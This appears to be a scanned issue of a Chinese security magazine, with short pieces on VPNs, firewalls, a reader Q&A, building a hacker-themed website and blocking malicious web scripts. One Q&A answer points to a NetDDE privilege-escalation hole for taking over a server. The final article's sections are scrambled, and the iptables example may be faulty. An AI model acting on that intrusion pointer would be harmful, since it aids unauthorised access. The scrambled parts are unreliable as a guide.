VPN 服务的目的是在共享的基础网络设施上，向用户提供安全的网络连接。合理和实用的 VPN 解决方案应能够抗拒非法入侵、防范网络阻塞，而且能保证安全、稳定的网络通信。同时，VPN 还应该具有良好的可管理性、可伸缩性等特征。其基本属性可分成以下几个类别：
- 可伸缩性：VPN 网络应该在全网规模上实现自身的可伸缩性；很容易扩充网络的带宽和节点数目。
- 安全性：保证重要数据流量通过隧道加密、流量分离、数据包认证、用户认证和访问控制等安全机制并保持其机密性。
- QoS：保证重要的或者对延迟敏感的数据流量的优先权，通过变动带宽速率来管理网络的拥塞。
- 可管理性：提供服务水平协议（SLA），保证安全策略、QoS 策略、网络的可管理性，提供高性价比的组网方案。

### 二、两种不同的VPN 技术
1. 由于侧重点不同，VPN可以分为两类
一类 VPN 技术侧重于网络层的信息保护，提供各种加密安全机制，以便灵活地支持认证、完整性、访问控制和密码服务，保证信息传送过程中的保密性和不可篡改性。这类协议包括 IPSec、PPTP、L2TP 等等。其中，IPSec 已经成为国际标准的协议，并得到几乎所有主流安全厂商的支持，如 Cisco、Checkpoint、Netscreen 等。主要的应用领域为各种涉及信息安全和加密的应用，如金融、证券、地税、财政、工商、商检、信息中心、科委等部门，上下级机构传送敏感的信息、建设安全 OA 系统、召开保密视频会议、保证业务流程中数据的机密性与完整性。

另一类 VPN 技术以 MPLS 技术为代表，主要考虑的问题是如何保证网络的服务质量（QoS）。通过定义资源预留协议、QoS 协议和主机行为保证网络服务的水平，如时延、带宽等等。

2. IPSec VPN与MPLS VPN两者所面向的应用领域不同
安全性是 VPN 网络设计考虑的首要因素时，应当采用 IPSec VPN。因为 MPLS VPN 不提供加密、认证等安全服务。IPSec VPN 可以使分布在不同地方的专用网络，在不可信任的公共网络上安全地通信，采用复杂的算法来加密传输的信息，使得敏感的数据不会被窃听。

MPLS VPN主要用于建设全网状结构的数据专线，保证局域网互联的带宽与服务质量。总部与下面分支机构互联时，如果使用公网，则带宽、时延等很大程度上受公网的网络状况制约。而布署 MPLS VPN 后，可以保证网络服务质量，从而保证一些对时延敏感的应用稳定运行，如分布异地的实时交易系统、视频会议、IP 电话等。

3. 两种VPN的区别
MPLS 实质上是一种网络基础设施，可以采用公网、DDN 或 MPLS VPN 作为网络基础设施。当然，服务质量与运行费用也各不相同，结构分别如图 1 所示。


IPSec VPN是构筑于网络基础设施之上的一种
（下转第69页）

# 为什么不在防火墙上集成病毒检测
文/NetEye Support Team

最近，很多厂商相继推出了防火墙产品，声称可以直接在防火墙上集成病毒检测的模块。以下是这些产品的技术白皮书中的阐述（原文引用）：

> “XX 防火墙能实时对邮件病毒进行检测，还可以检测 Java 类病毒、HTML 类病毒。当检测到病毒时会自动报警，并同时将病毒和被保护的区域隔离，从而达到保护的目的。
> - 实时扫描 Internet 病毒
> 可基于安全策略（清除病毒、删除文件、允许通过）对邮件、WWW 等应用进行实时检测和报警。
> - 保证邮件安全
> 可对邮件来源和邮件内容进行过滤，防止垃圾邮件的产生。同时可支持附件中常用的 20 余种压缩格式和 20 层压缩，可实时检测隐藏在附件中的 Internet 病毒。”

从这些产品的宣传中可以看出：厂家宣称在数据进出防火墙的时候可直接对病毒代码进行检测和分析。这样做究竟是好是坏呢？究竟是防火墙的一个趋势，还是一个造势的噱头呢？下面我们来进行一些分析。

众所周知，防火墙是网络安全政策的有机组成部分，它通过控制和监测网络之间的信息交换和访问行为来实现对网络安全的有效管理。从总体上看，防火墙应具有以下 5 大基本功能：
- 过滤进、出网络的数据
- 管理进、出网络的访问行为
- 封堵某些禁止的业务
- 记录通过防火墙的信息内容和活动
- 对网络攻击进行检测和报警

为实现以上功能，在防火墙产品的开发中，人们广泛应用网络拓扑技术、计算机操作系统技术、路由技术、加密技术、访问控制技术、安全审计技术等多种技术方式。

纵观国内外防火墙产品的发展历史，发现世界著名的防火墙厂商的产品，包括 Check Point 的 Firewall-1、CISCO 的 PIX、NetScreen 等，都没有在防火墙上直接集成防病毒的模块。那么，这是为什么呢？

稍稍总结便知，在防火墙上集成病毒检测的模块会有极大的弊端。其主要表现在以下几个方面：

## 一、使防火墙性能大幅下降
大家都知道，病毒检测需要对进出的数据进行病毒代码的匹配。防火墙如果内置了防病毒模块，就需要在防火墙核心包过滤模块之前或之后进行病毒代码的匹配和检测。这个匹配的过程要比状态检测模块中进行过滤的过程更加消耗系统的资源，占用大量的内存和 CPU 等，使防火墙的性能下降非常明显，几乎可以达到用户无法接受的程度。

这一点是绝大多数防火墙没有内置病毒检测模块的根本原因。

## 二、加大防火墙的安全隐患
大家都使用过防病毒的软件，知道防病毒产品需要不断地更新防病毒引擎和病毒代码。那么，如果防火墙内核部分集成了防病毒的引擎，同样也需要不断地更新病毒引擎和病毒代码。

有的防病毒厂商的软件升级更新非常快，平均一周要更新 1~3 次。如此频繁的更新、升级速度，会使防火墙预留的病毒升级接口利用非常频繁。它会经常调用病毒升级的 API，这样对防火墙的安全性、稳定性都是一个极大的挑战。

反之，如果不经常升级和更新，或者很久才进行升级和更新，又失去了防病毒的意义。因为，世界上每天都会有新的病毒产生！

## 三、总结
基于以上分析可知，现在的防火墙体系结构和使用环境，决定了防火墙中不能内置防病毒的模块。那些宣称防火墙可以直接查、杀病毒的产品只不过是一种宣传的手段罢了，请用户根据自己的需要仔细考虑。

目前，国际上通用的对网关防病毒的做法是将防火墙上的数据引导到另外专门进行病毒检测的服务器上，像 Firewall-1 等等，而不是直接在防火墙上进行病毒检测。

# 如何选择防火墙的存储器
东软软件股份有限公司 NetEye 策划部 网络安全咨询顾问 韩松
东软软件股份有限公司 网络软件事业部 业务总监 网络安全咨询顾问 王虎


## 一、前言
目前，国内市场上的防火墙产品中，内部采用的存储器一般分为两种：Flash 盘（电子盘）和硬盘，其中硬盘有的是 IDE 硬盘或者 SCSI 硬盘，也有的是笔记本硬盘。SCSI 硬盘的可靠性和稳定性要高于 IDE 的硬盘，但是成本也会相应的增加。

在用户进行产品选型的时候，往往面对各个厂家的介绍难以作出选择，究竟哪种存储器更好一些呢？一般情况下，我们认为，不论何种商品，适合自身业务处理需求、具有最高性价比的产品就是最好的。那么这两种存储设备究竟有何区别，我们选择的依据是什么呢？下面从技术和市场的角度简单的作以剖析，以便用户更好的进行选择。

## 二、分析
### 1. 存储空间
就目前的防火墙设备中，硬盘存储的空间要远远大于电子盘。电子盘采用半导体技术，工艺复杂，电子盘的容量很小，一般仅为十几兆或几十兆的空间，无法存储大数据量的数据，对于一些必要的存储空间比如日志系统往往不能适应。

NetEye 防火墙采用的硬盘可以在本地存储大量的日志信息，因为目前很多用户使用的是防火墙本地日志，所以硬盘方式的防火墙比 Flash 形式的防火墙在这方面有先天的优势。单独采用 Flash 形式的防火墙产品，要么没有日志系统，要么必须将日志系统存储于网络上面的专门数据库中。

### 2. 数据传输速度
普通硬盘采用磁头读取旋转碟片的数据，所以碟片的转速直接影响数据的读取速度。现在普通硬盘的转速为 5400r/m，最高可达 7200r/m，而数据传输可达到 66MB/SEC。电子盘由于一般采用 IDE 接口，所以它的数据传输速度仅仅可以达到标准的 IDE PIO MODE 3 传输速度 16MB/SEC。由于电子盘受内部控制芯片处理速度的影响，实际传输速率会更低一些，根本无法达到硬盘的速度。

### 3. 产品质量
根据一些市场调查发现，国内防火墙厂商选用的电子盘产品绝大多数来自于台湾的厂商，产品质量参差不齐；另外电子盘使用次数是有限的，多次使用后极易损坏。

市场实际情况也表明，防火墙市场上也有一些厂家曾经采用电子盘存储器，但是产品经常出现损坏的情况，严重影响了用户的正常业务运行。目前，这些厂家大多已经改用硬盘存储器。

### 4. 存储技术
对于同样采用硬盘的存储方式中，存储技术的不同也对数据存储、性能等方面产生很大的影响。

东软的 NetEye 防火墙与市场上其他厂家防火墙数据存储技术不同，NetEye 防火墙采用内存映像技术，直接把系统文件映像到内存。这种技术导致数据的处理速度、运行机制与电子盘是毫无区别，同样高效。

### 5. 特殊情况
对于一些特殊情况的处理，如异常掉电的处理，这往往是用户最关心的。

东软 NetEye 防火墙对于各种异常情况做了充分的考虑，并经过了严格的测试。NetEye 防火墙采用 RAMDISK 技术，核心系统完全工作虚拟内存中。至于一些异常掉电、非法关机等情况，对 NetEye 防火墙系统无任何影响，免除客户的后顾之忧。

## 三、总结
NetEye 防火墙产品经过 4 年多的市场验证，广泛应用与政府、金融、证券电信、企业等多种运行实时操作的复杂应用系统的行业。多年的市场检验也表明，东软的防火墙存储技术，是能够保证客户的最大利益的。

## INTERCOURSE 栏目编辑 > Bright > answer@hacker.com.cn > 编读互动
又到了我们编读互动的节目，可是 Bright 还是不见踪影（公司搬家，Bright 当接线工去了，好几天不见踪影），F-king 自告奋勇担任本期主持。幸运的是平时的读者来信 Bright 已经整理好了，剩下的工作 F-king 还是胜任有余，毕竟还是有两把刷子的。言归正传，开始本期的编读互动。

问：请问 WinNT4.0 服务器不用重新安装就能快速由“域”转变成“工作组”吗？
答：当然可以。Windows NT 4.0 的服务器分为三种“域控制类型”，将“域”转变为“工作组”可能涉及到一系列操作：先在属性的“标识”中，将该服务器的计算机名和域名改掉，然后在系统登录时，将“域”改为网络中另外一个服务器的域名。但在整个网络中还是会存在两个域（除非你在安装时将其作为另一服务器的备份域控制器）。同样的，原有的其它工作站也应将“网络”属性中“标识”选项卡中的“工作组”改为另一服务器的“域”名，在“Windows 用户”属性中将要登录的 Windows NT 域改为另一服务器的域。

问：请教大侠：何为网关？如何设定网关，按什么来设定？
答：网关（Gateway）：将两个使用不同协议的网络段连接在一起的设备。它的作用就是对两个网络段中的使用不同传输协议的数据进行互相的翻译转换。举个例子，一个商业内部局域网就常常需要通过网关发送电子邮件到 Internet 的相关地址。通常在拨号上网的主机上安装代理软件，如 Sygate、Wingate 等……然后这台主机的 IP 地址即网关地址。

问：在 TCP/IP 筛选中，我发现如果只允许 TCP 80，那么不能用 IE 访问其他网站（应该是没有临时端口吧）。如果再多允许 1433，那么能用 IE 访问其他网站，用 netstat 看，一系列临时端口都打开了，为什么呀？而且“只允许 IP 协议”为空（是不是说所有 IP 协议都不允许），也没有用。
答：你说的情况理论上说不通，TCP 筛选只管进来的，不管出去的。“只允许 IP 协议”为空并不是说所有 IP 协议都不允许。

问：Windows 2000 Server 装双网卡，如何设置上 Internet 共享？我的服务器是 Windows 2000 Server 版，我装了一块 10M，一块 100M 的网卡，100M 是与宽带联，10M 的与公司局域网联，局域网内的机器由服务器上网。100M 的 IP：10.200.*.*，10M 的 IP：192.168.*.*。我现在是用 Wingate 设置共享。好像 Win2K 自带可以共享上网的，但我如果设置 100M 的共享，它会自动把 IP 设为 192.168.0.1。如设 10M 的共享，好像不能上网。不知大家有没有设过这类共享，请指教一二。谢谢！
答：可以用微软的 WinProxy 2.0 或者 ISA。我在公司的服务器上安装了三块卡，一块卡用来跟电信的 ADSL 专线连接，另外两块卡分别接不同的子网。两个子网都通过第一块卡访问 Internet，而且它们通过 Win2K 的路由功能进行互访（有限制）。

问：有一台 Server，它有 DHCP，DNS 服务，能够分配 IP 地址，但 DNS 中指定 DNS 服务器 IP 地址为 202.110.121.135，而拨号接入后，用 Winipcfg 查看 DNS 服务器 IP 地址为 202.110.121.135，且 DNS 服务器还 PING 不通，为什么？
答：Ping 是一个工具程序，在使用 Ping 时，Ping 工具程序发送一个 ICMP 应答请求给对方，以验证另一台计算机是否在网络上，分析对方的名字和 IP 地址，可以查询 DNS 服务器而不调用它的主机通用解析器。Winipcfg 也是一个工具程序，可用来显示本地计算机的 IP 地址配置情况，也可显示 IP 主机的域名、DNS 服务器和 WINS 服务器以及 NetBIOS 节点类型。而 DNS 服务器 PING 不通有可能是 DNS 服务器不允许 PING。

问：如何在本子网的 DHCP 上为另一子网的用户分配 IP 地址？
答：在 DHCP 服务器上作两个 Scope，合并成 Super Scope。接下来，如果路由器支持，可以打开路由器上 DHCP 广播；否则，可在没有 DHCP 服务器的子网中安装一台 Windows NT 计算机，装上 DHCP Relay Agent 服务。

问：请问使用代理服务器安全吗？
答：使用专业的代理服务器时，所有的路由和流程均有可能被记录在案。对于网上其他用户和目的服务器来说您是安全的，可是对于代理服务器本身来说，一切都是透明的！代理服务器的管理员或者通过其他手段拥有代理服务器的管理人员可以很轻松的得到你访问过的一切信息。

## INTERCOURSE
栏目编辑 > Bright > answer@hacker.com.cn

问：怎样通过 Internet 修改已知道的某台服务器硬盘的访问权限？
答：可以利用服务器的本地漏洞提升权利，可以利用的比较方便的漏洞是——NetDDE 漏洞，但默认没有打开 SMSS，也可以利用远程攻击的方法来得到管理权限。但我们不推荐这样做！

问：我的 CuteFTP 速度很慢，排除掉网络因素，可以让它加速吗？
答：可以。首先将常用 FTP 站点加到“站点管理器”中；在 CuteFTP 主窗口中，点击菜单“Session” → “Save local (或 remote) Path to SM”，将目录保存到“站点管理器”中，这样，在你下次登录该站点的时候，就会将它作为默认设置；使用 CuteFTP，可以随时按下 Ctrl+D 键，呼出改变目录窗口，以便快捷地在本地或远程窗口中改变目录；使用书签（Bookmarks）功能保存经常访问的目录。

问：请问 IP 电话收费吗？所用 MODEM 需要支持语音吗？是否可以不用声卡？如何选择 IP 电话软件？
答：IP 电话软件可以找到免费版本（如 Freetel），也可以用试用版本（IPhone），更可获得集成版本（如 NetMeeting）。IP 通话完全是通过 Internet 进行，没有其他特别收费。IP 电话的主机是免费提供给世界各地的 IP 电话用户使用的，而 Net2Phone 和 IPhone 5.0 提供的打到普通电话的服务是收费的。如果你现在什么都没有，就需要花钱采购所需的一些设备；如果你软硬件齐全，那么使用 IP 电话是不要钱的（当然，你必须为自己的 Internet 连接支付正常的使用费）。由于 IP 电话的原理就是实时的通过声卡录制声音数据，然后压缩，通过 Internet 传送给对方，所以不需要 MODEM 支持语音。同样道理，声卡是绝对必须的。质量不同的声卡区别在于声音效果的不同。

如果你想和网友交流，却不想付费，VoxPhone、NetMeeting、Cool Talk 是你的首选。如果你想打到普通电话上，则只有选择 IPhone 或 Net2Phone。

问：编辑好，我想问 Linux 内核是如何控制硬件的，硬件又是怎样与内核联系的。请介绍一点，或者有这类似的文章的地址请写出来。
答：通常内核控制硬件，当然是应用驱动程序。Linux 用 modules 来动态加载/卸载驱动。Linux 内核代码：www.kernel.org

问：我用 VMware 安装 RedHat Linux，怎么检测不出显卡？我试着实现虚拟机和主机的连接，但不能实现！打开网卡属性，数据包只有发出，收到为零！怎么回事呀？请指教！
答：显卡的驱动：安装个 VMware Tools for Linux，VMware 内置。先选择 Setting 选项卡的 VMware Tools Install，然后安装 `cd /mount -t vfat /dev/fd0 /mnt`
```bash
cp /mnt/vmware-linux-tools.tar.gz /tmp
umount /mnt
cd /tmp
tar zxf vmware-linux-tools.tar.gz
cd vmware-linux-tools
./install.pl
```
安装完毕。`startx`。1024×768×32 Bits。至于网卡，系统应该自动搜到 PcNet 网卡，ping 通主机就应该没问题，如果不放心，可以装个 Linux 下的嗅探器，比如 sniffit，就可以监视网络上的数据包了。

问：在局域网里没有邮件服务器，用户只是上 163.net 或者 sina.com 等收发邮件。我想是允许用户通过使用 Outlook 或 Foxmail 来收发邮件。至于通过 Web 来收发，这个我不管。可以教我怎样做吗？请问用 iptables 怎样才可以实现只允许用户收发邮件。谢谢！
答：举一个简单的例子供你参考：
比如，你的客户 IP 地址是 192.168.0.5/32，可以如下操作：
```bash
// 假设 PREROUTING 默认策略为 DROP
iptables -t nat -P PREROUTING DROP
// smtp service
iptables -t nat -A PREROUTING -s 192.168.0.5/32 -p tcp --dport 25 -j ACCEPT
iptables -t nat -A PREROUTING -s 192.168.0.5/32 -p udp --dport 25 -j ACCEPT
// pop3 service
iptables -t nat -A PREROUTING -s 192.168.0.5/32 -p tcp --dport 110 -j ACCEPT
iptables -t nat -A PREROUTING -s 192.168.0.5/32 -p udp --dport 110 -j ACCEPT
// 最好打开 DNS 解析
iptables -t nat -A PREROUTING -s 192.168.0.5/32 -p tcp --dport 53 -j ACCEPT
iptables -t nat -A PREROUTING -s 192.168.0.5/32 -p udp --dport 53 -j ACCEPT
```


# 出路

在网上看到一则消息说：去年上海有一个考生，在计算机防黑客攻击方面很有一套，但有的科目成绩不大好，复旦大学认为这并不影响他在计算机方面继续深造，愿意录取他。教育部就此特批。由此引发了一些感想，在这儿和大家随便聊聊。

我在黑防2年多的时间内，接触了很多从事网络安全工作的朋友，还有大量对网络安全感兴趣的朋友包括中学生、大学生、IT从业者等等，其中不少朋友还想来北京发展，问及北京的就业状况、薪水待遇等。我今天主要说的并不是这些，而是一些对网络安全有着浓厚兴趣的大学在校生由于自认在学校所学不能满足自己的求知欲，自己的计算机水平已经高于教师，从而放弃学业，走入社会。理由也异常充分，立即可以罗列出很多著名黑客的经历，他们都是提前辍学，自学成才等等，现在都在一些资深安全公司担任重要的职责。可是反过来想一想，并不是人人都可以这样的，从事网络安全的庞大队伍内，这种情况有多少，他们可能是“天才”，或者“鬼才”，再加上机遇和努力，才有今天的成功。那么我们现在盲目地效仿他们有什么意义？诚然，文凭现在或许仅是成为找工作的一张名片，进门以后靠的是自己的努力和实力。可是要知道，没有伯乐，没有机遇，你中榜的机会相对很渺茫，那么你又如何去发展？如何去展示你的才华？

部分高考网站被黑的消息，“黑客”者无非是出于两种动机，其一试图篡改个人分数以期蒙混过关，其二为落榜者发泄私愤之举，这一现象说明什么呢？虽然现在大学生遍地都是，但是父母们还是期望自己的儿女能够进高等学府深造。那我们既然已经踏进了这个门槛，为什么又要轻言放弃，我们还年轻，我们需要不断的充实自己，既然自我感觉还不错，认为自己很优秀，那就再付出一些努力，做得更好一些，因为要做一个真正的“黑客”，优秀的“程序员”，仅仅知道利用系统漏洞进入别人机器是远远不够的，如果没有扎实的基础，这一切仅仅是空谈。所以我们在校的朋友们应该珍惜这个机会，打好基础，终有一日，你会美梦成真，做一个真正的网络安全专家。

刚开始接触网络时，觉得建个个人站点非常风光，但由于一些原因，始终没有去做。现在个人站点已是满天飞。有关黑客、安全的站点也不胜枚举。那么，如何才能建一个安全且吸引人的站点呢？下边是笔者建站3年的一点小经验，提供给大家借鉴。

# 动手建造自己的黑客网站

文/劲刀狂舞

现在很多黑客高手都有自己的个人主页。高手通过个人主页互相交流，还可以发表自己的作品，这使得广大菜鸟很羡慕。其实，做黑客主页并不很难。笔者的黑客主页已经运行了快3年，其中有些心得不敢独享。写出来供大家参考。

虽然有时不被大多数人注意，但站点在黑客界却有一定的影响力。典型主页：http://www.netxeyes.org/。

## 内容篇

因为我们的题目是建造自己的黑客主页，所以我们就说说怎么选择黑客主页的内容。现在个人黑客主页有以下几个类型：

- 1. 文章搜集型：笔者现在的主页也属于这个类型。这种主页最大的特点就是站点内有大量的黑客文章，分类也很细致，给浏览者强烈的知识冲击。有的站点甚至有复杂的站内搜索引擎和数据库系统。文章有自己原创，也有网络剪辑，形式很多。技术特点鲜明，技术含量高。这样的网站适合各种不同需要的人群。典型网站：http://www.heihoo.com。
- 2. 工具下载型：做这种站点的站长最辛苦，为了使得大家能有好用的工具下载，不惜花费自己的网费作上传下载。一般这样的站点的站内空间都很大，并且需要站长平时上网条件很好。有的网站需要有很多人共同维护才能发展，网站同时适合各种人群的需要。不过现在很多这样的网站已经由单纯的提供黑客工具下载，转向了提供综合性服务。典型网站：http://www.heibai.net/。
- 3. 黑客综合型：做这种网站的人算是黑客发烧级的了。他们一般都是由一个小的团体构成，甚至是一个小型公司。网站内容涉及广泛，而且有时伴有少量的商业气息。站内成员从站长到普通成员对站点都非常热爱，经常或者每天更新主页，浏览量大。典型站点：http://www.xfocus.net
- 4. 个人另类型：如果你发现一个个人网站采取叙述性者，多为这样的网站。网站从上到下整个就是个人的技术喜好，技术性极强。文章内容多为原创，软件也多为自行开发。更新不定时。
- 5. 论坛发布型：这种主页也很有特色，整个站点就是一个大论坛。一般从黑客新闻、技术专区，到编程解答，甚至还有提供闲聊的场所。有的论坛功能完善，采用积分制来刺激网友登陆。站点的斑竹都是黑客高手，而且都很敬业，耐心地给网友回答疑难问题。访问者一般都是这里的长期会员。典型主页：http://www.s8s8.net。
- 6. 缺德滋事型：笔者之所以花一定的篇幅来说这种主页，是因为这种主页的站长应该得到大家的一致谴责。这样的站点一般内容较少（或没有），名字奇特怪异。最重要的特点就是站点内会有大量的病毒代码。如果浏览者不小心点中，病毒就会感染浏览者的计算机，为非作歹。做主页是个人的爱好，目的是展现自我和为网友提供方便。如果你有想法做本类型主页，请你就看到这里为止吧，本文不适合你。典型主页：取缔过程中。

看了以上笔者对黑客主页的简单总结，大家是不是对黑客主页有了大致的了解？那么，初学者究竟应该怎么做个人主页呢？

扬长避短，尽量靠近自己所熟悉的领域。应该具有个人的特色和风格，初作主页时切忌做的大而全，毕竟你一个人的力量比不得一个公司。应该选择个人另类型主页。当你把主页的名气做出来，再考虑吸引别的站内成员，把你的主页做大。至于做主页时所需要的经验，不在本文的讨论之内，请大家搜集资料，自行研究。

## 工具篇

古人云：工欲善其事，必先利其器。要建主页，先要准备好必要的软件。网页制作工具现在是Frontpage家族和Dreamweaver家族相互对立。Frontpage以“傻瓜”闻名，使用极其简单，功能也够用，适合业余爱好者；Dreamweaver 使用方便，功能强大，制作动态网页已经出神入化，为专业人士所必备。二者各有所长，Dreamweaver 略占一点优势。不过笔者本着“专业的才是最好的”的态度，还是推荐初学者使用 Dreamweaver 做主页开发。如果你的英文不是很好，可以在网上找相应的中文汉化包。

主页当然也离不开图像处理，虽然 Photoshop 功能强大，不过 FireWorks 更适合做主页时使用。再加上 FireWorks 和 Dreamweaver 同属于 Macromedia 公司，这也使得学习起来更方便。不过，笔者还是要大家把精力放到主页内容上，黑客主页毕竟是以内容取胜，做一些花哨、不实用的东西是没有必要的。

上传工具，笔者推荐使用 CuteFTP。这个软件是目前最流行的上传工具了，它可以使你管理主页更加方便。此软件功能强大，更多的使用可以参看其他网上教程。

## 策划篇

什么是策划呢？策划就是定好你做黑客主页的目的：是为了兴趣、学习、交流、工作，还是其他。要认准你主页的目标人群：是少数较少的黑客发烧友，还是人数众多的初学者。还要注意为主页留好发展空间，如果以后想增加一个栏目，却发现首页上已经没有位置，必须重做一次，那么你的主页策划就是失败的。

笔者的主页策划大体如下：

- 1. 主要内容：供广大网络新手学习网络安全和黑客入侵的相关知识。笔者不断学习，发现网上的黑客教材要么太肤浅，要么太深奥。于是开始自己写起了文章，当然文章还很幼稚，不过个人认为还算比较好懂。现在，笔者担任《黑客防线》的在线编辑，这样可以更好地办好黑客防线。这样我就组织了这么一个网站（图 1 ）。


- 2. 目标人群：面向各类人群，但主要还是网络新手。根据目前状况，还会有一些自由撰稿人浏览我的网站。
- 3. 发展规划：目前主讲常见系统平台下的黑客与安全知识，主要是在 Windows 和 Linux 上。今后会逐步增多各类网络环境的安全防范。

## 制作篇

工具有了，策划内容也定好了，终于可以开始制作了。可是，毕竟网络新手做出来的主页效果很差。笔者建议大家多多参考经典网页，先用 IE 把页面保存在计算机里，再用 Dreamweaver 打开。看看别人的主页是怎么做的，但一定不要抄袭，而是要学习人家的制作技巧，关键是边实践边学习。

如果你有一定的主页制作基础了，可以使用更高点的技巧。例如 JavaScripts 技术，ActiveX 技术等。最后，你的经验和技术都过关了；可以试着使用复杂一点的动态网页技术。这里你可以学习使用很多的脚本语言，例如，ASP,PERL,PHP,JSP 等。当然，这里要求你的主页空间支持以上脚本。还有更省心的方法，可以使用网上的免费脚本，进行更改。这里最常见的即为黑客论坛型主页，这样可以使你省出来很多时间进行内容的制作和更新。

接下来就是主页的上传了。上传前一定要仔细检查，不要出现错误链接问题。比如错将图片链接成本地电脑。这个问题在本机基本上不容易暴露，可以正常显示，而放到网上就会出现文件找不到的错误了。站点上传工具 CuteFTP 的功能非常强大，就不一一细说了。

## 空间域名篇

要上传必须要有主页空间，现在很多网站都提供了免费的域名空间。现在申请免费的主页空间很容易，但申请到好的主页空间就很难了。有的朋友经常问我，什么才是好的主页空间？答案很简单，只要是速度快、稳定性好的主页空间就是好的主页空间。空间大小一般无所谓，因为一般的个人站点也用不了多大的空间。当然，现在的免费空间都不会提供动态网页技术的支持，如果你想在站点内使用论坛、留言板等可以到某些地方申请一个连接过来就可以了。

如果你对个人主页的要求比较高，可以试着租用商用空间。一般用个人用户都是使用虚拟主机架站。提供虚拟主机的地方很多，一般建议选择名气大一点的服务商。普通支持 ASP 的主机一年只要300多元。例如：《黑客防线》推荐万网的主机。如图2所示。


《黑客防线》主页上推荐的虚拟主机租用有了空间，域名也不能少。因为很少有人能记住你站点的详细URL，这就要用域名来解析你的地址。域名也分免费域名和收费域名。一般的免费域名都是二级域名，都以xxx.abc.com为格式；而收费域名都是国际顶级域名，如果你在上面选择了租用虚拟主机，一般顶级域名都是随主机赠送。注册好了域名，在域名管理的地方填好域名指向就可以通过域名访问你的主页了。

今后的日子，就应该维护你的网上家园了。除注意更新之外，还要不断地宣传。

## 安全维护篇

你的主页做好了，每天就会有很多网络安全爱好者访问你的主页。这些访问者中有的是善意获取知识，但有的则很危险。我们一定不可掉以轻心。

首先就是密码安全。密码的强度自然不用我说，一般人自己的心血都会懂得去珍惜。可是关于密码的泄漏不一定都是密码的强度不够。比如说上传，在你上传时必定会输入你用户名和密码。可是一般的上传软件都有保存密码这一选项，如果我们选中软件会把你的用户名、密码、地址一一的保存起来，以后只要简单的一点就会登陆更新。这种方法虽然方便，但保密性差，建议在家上传的朋友选用。如果你上传时是在公用的计算机房，这里建议使用快速连接；这样每次都要输入上传地址、用户名、密码，而不保存，比较安全。

数据库安全：一般的虚拟主机都会支持一些用户的数据库。数据有很多种，常见的有Access数据库、文本数据库、MySQL数据库、MS-SQL数据库等。我们这里特别注意的是Access数据库安全。因为很多网站是由ASP和Access数据库架设，而.MDB数据库有一个缺陷，在用ACCESS做后台数据库时，如果有人通过各种方法知道或者猜到了服务器的ACCESS数据库的路径和数据库名称（其中一些免费发行的ASP脚本则更加危险），那么，他能够下载这个ACCESS数据库文件，这是非常危险的。比如：如果你的ACCESS数据库book.mdb放在虚拟目录下的database目录下，那么，有人在浏览器中输入：http://someurl/database/book.mdb，如果你的book.mdb数据库没有事先加密的话，那么，book.mdb中所有重要的数据都将掌握在别人的手中。数据库如果泄露，其中的管理用户名和密码就会被黑客得到，甚至你注册网站的用户密码和用户名也会泄露。要想避免泄露，我们可以这么做：

为你的数据库文件名称起个复杂的非常规的名字，并把它放在几层目录下。所谓“非常规”，打个比方：比如有个数据库要保存的是有关书籍的信息，可不要把它起个“book.mdb”的名字，起个怪怪的名称，比如d34ksfslf.mdb，再把它放在如./kdslf/i44/studi/ 的几层目录下，这样，黑客要想通过猜的方式得到你的ACCESS数据库文件就难上加难了。如果是免费版本数据库，则一般改写数据库文件名和其DSN中的数据库名字就可以了。一般的DSN文件名是conn.asp。还有很多的方法，请读者自己通过相关资料学习掌握。

系统安全：很多黑客都知道一个系统的安全性是很重要的，如果黑客突破了你网站所在的系统，你的主页就会被修改，站点信息会被黑客窃取。所以，你作为站长应该经常地检查你主机系统的安全性。检查方法就是你自己以一个黑客的身份作模拟入侵，对于一些安全隐患你应该了如指掌。当然这一点要求你应该有一定的技术作为保障。如果发现问题应该及时的通知管理员。当然如果你的主页空间是免费空间，问题应该不会很大。如果你的主页的是商业空间，或是借用一些公司的主机，你就应该时刻注意了，相比免费空间，黑客更喜欢“光临”此类主页的。

## 结论

总之，做好黑客主页就这么几点：确定内容选材、选好制作工具、做好策划工作、注意不断学习、注意空间和域名的选用、重点强调安全性。如果你能做好以上几点，你的黑客网站应该就很不错了。今后的日子，就应该维护你的网上家园了。除注意更新之外，还要不断的学习和宣传，最后达到学习网络知识的目的。

HTML 语言在网页制作上应用广泛，其中的一些功能也得到了众多浏览器的支持。不过，网友在浏览网页时经常会发生一些意想不到的事情，例如，IE 标题被改名字，Internet 选项无法打开，开机后自动弹出某一个网页等。这些脚本，有些是恶作剧程序，有些则是黑客程序。其实，预防和解决此类问题也很简单，看完本文后，你一定会得到启发。

# 预防和解决上网被“黑”的几种方法

文/王维平

现在个人网站越来越多，制作水平也是良莠不齐，有时为了获得一定的访问量，某些站点会采用一些恶意的脚本程序来修改访问者的注册表，这往往给不少上网的朋友造成麻烦。下面给大家提供一些预防和保护的方法。

打开属性对话框，在“General”内将“Startup type”设为“Disabled”。这样也可以拦截部分恶意脚本程序。

## 一、防范

## 二、软件修改

- 1. 备份注册表
网上的恶性修改原理都是修改访问者的注册表，我们只要时常备份，一旦被黑了，恢复原来的备份就行了。不过这并不是一个好方法，一是 很麻烦；二是有可能之前你已经装了某些软件，恢复注册表可能会引起冲突；另外，这样做也无法避免攻击，只是作为一个补救的措施罢了。

### Magic Set

- 2. 设定 IE 浏览器的安全级别
由于IE遭到修改往往是因为浏览了含有恶意脚本的网页，因此，在 IE 设置相应的安全级别即可避免 IE 再次遭到恶意修改。设置方法：在 IE 的菜单栏中选择“工具”→“Internet 选项”，在弹出的对话框中切换到“安全”标签；选择“Internet”后点击“自定义级别”按钮，在“安全设置”对话框中，把“ActiveX 插件和控件”、“脚本”中的相关选项全部选择“禁用”或“提示”即可。如果选择了“禁用”，一些正常使用 ActiveX 和脚本的网站可能无法完全显示，建议大家还是选择“提示”。

现在最新版本的超级兔子又新增了一个小工具“超级兔子注册表保护器”，它的作用就是保护你的注册表不被恶意修改以及被修改后的及时恢复。保护器的使用方法很简单：先在左边的复选框内选中你想防修改的项目，然后点“清除”按钮，它便会弹出一个确认框，提示非安装 Windows 时自带的和IE有关的注册表项将被清除并恢复到初始状态，点击“确定”即可。另外，也可以点击“保护”按钮，这时，保护器就会最小化在系统托盘，时刻保护你的注册表不被修改。最后，你还可选中“开机自动运行…”前的选择框，保护器就会在你每次开机时运行，这样可以做到防患于未然，可以高枕无忧地上网了。

- 3. 使用更新版本的操作系统
